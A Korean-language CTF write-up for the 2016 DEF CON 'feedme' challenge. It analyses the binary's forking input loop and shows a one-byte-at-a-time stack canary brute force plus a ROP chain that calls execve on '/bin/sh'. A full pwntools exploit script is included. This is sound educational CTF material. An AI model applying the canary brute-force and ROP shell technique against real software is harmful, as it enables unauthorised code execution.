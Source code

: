 ```yaml
---
title: "2016 Defcon CTF Feedme"
date: 2019-12-30
ctf: Defcon CTF
layout: post
---
```


```
feedme: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, stripped
```

바이너리 stripped 되어있고 statically linked라 좀 분석하기 어려워졌다.

`0x0804917A` 여기가 메인 함수고 메인함수에서는 그냥 signal함수를 이용해 SIGALARM을 150초 설정해놨다. 

그 이후  `sub_80490B0` 함수를 호출하는데 이 함수에서는 fork를 이용해 자식 프로세스를 생성한다. 0x31F번을 반복하는데 이 곳에서 우리가 입력받는 함수도 호출해준다. 

```c
int sub_8049036()
{
  unsigned __int8 v0; // ST1B_1
  char *v1; // eax
  int result; // eax
  char v3; // [esp+1Ch] [ebp-2Ch]
  unsigned int v4; // [esp+3Ch] [ebp-Ch]

  v4 = __readgsdword(0x14u);
  sub_804FC60("FEED ME!"); // puts
  v0 = sub_8048E42(); // size
  sub_8048E7E(&v3, v0); // input
  v1 = sub_8048F6E(&v3, v0, 0x10u); // convert 10 -> 16
  sub_804F700("ATE %s\n", v1); // printf
  result = v0;
  if ( __readgsdword(0x14u) != v4 )
    sub_806F5B0();
  return result;
}
```

여기가 우리가 입력받는 함수다. canary가 걸려있다. 

`sub_8048E42()` 함수는 입력한 문자열의 아스키 값을 v0에 저장한다. 

 `sub_8048E7E` 함수에서는 v0의 크기만큼을 입력을 받는데 v3 버퍼에 저장해준다.

`sub_8048F6E` 요기서 16진수 hex값으로 변환해준다. 

`sub_806F5B0()` 여기는 그냥 카나리 값 비교해주고 stack smashing detect 띄워주는 곳이다.

여기서 취약점 터진다. 카나리를 제외하고 buf 크기는 0x20만큼이다. 근데 여기서 buf 다음에 카나리가 있어서 canary 값을 1 byte bruteforce해줘서 canary leak해 줄 수 있다. 그리고 fork를 사용하기 때문에 카나리가 고정 값이다. `stack smashing detected` 가 안 뜰때 까지 bruteforing 해주면 된다.

익스는 그냥 statically linked 바이너리라 웬만한 가젯들이 다 있어서 syscall을 위한 가젯들이 다 있을거다.

 `int0x80 ret;  pop eax ret; pop ebx pop ecx pop ebx ret;` 이 가젯들 이용해서 syscall 다 맞춰줘서 read 이용해 bss영역에 `/bin/sh\x00` 을 넣고 `execve` 함수 이용해서 익스했다. 

> exploit.py

```python
from pwn import *

# context.log_level = 'debug'

e = ELF('./feedme')
p = process('./feedme')

peax = 0x080bb496 # pop eax ; ret
pop3ret = 0x0806f370 # pop edx ; pop ecx ; pop ebx ; ret
int0x80 = 0x0806fa20 # int 0x80 ; ret  ;  (1 found)

canary = ''
p.recvuntil('FEED ME!\n')
for j in range(0,4):
	for i in range(0,256):
		go = 'A'*0x20+canary+chr(i)
		p.send(chr(len(go)))
		p.send(go)
		if not 'stack smashing detected' in p.recvuntil("FEED ME!\n"):
			canary += chr(i)
			print canary
			break
log.info('canary : ' + canary)

payload = 'A'*0x20
payload += canary
payload += 'B'*12
payload += p32(peax) + p32(0x3)
payload += p32(pop3ret) + p32(10) + p32(e.bss()) + p32(0) + p32(int0x80)
payload += p32(peax) + p32(0xb)
payload += p32(pop3ret) + p32(0) + p32(0) + p32(e.bss()) + p32(int0x80)

p.send(chr(len(payload)))
p.send(payload)
sleep(0.1)
p.send('/bin/sh\x00')

p.interactive()
```





